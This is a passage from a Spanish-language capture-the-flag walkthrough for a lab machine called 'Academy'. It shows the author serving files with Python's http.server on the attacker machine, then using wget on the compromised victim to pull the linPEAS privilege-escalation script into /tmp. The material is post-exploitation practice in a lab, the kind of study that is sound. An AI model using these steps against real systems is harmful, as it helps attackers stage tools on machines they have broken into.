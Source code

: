 - **`-m http.server`**: utiliza el módulo integrado de Python para HTTP
- **`80`**: indica el puerto (privilegiado) donde escuchar
- Ahora se va alojar un server web en la carpeta /transfer.

![](/assets/images/2025-07-20-Maquina_Academy/academy_python3.png)

```
cd /tmp
```

- Un buen lugar para colocar un archivo que se quiere volcar en la máquina víctima es en /tmp (carpeta temporal).

![](/assets/images/2025-07-20-Maquina_Academy/academy_cdtmp.png)

```
wget http://192.168.116.129/linpeas.sh
```

- **`wget`**: Para descargar un fichero desde la URL indicada.
- **`http://192.168.116.129/linpeas.sh`**: Es la URL donde está el script **linPEAS** (o una copia de éste) en esa máquina.

- wget hace la transferencia del archivo linpeash.sh desde nuestra maquina atacante al shell de la máquina víctima.
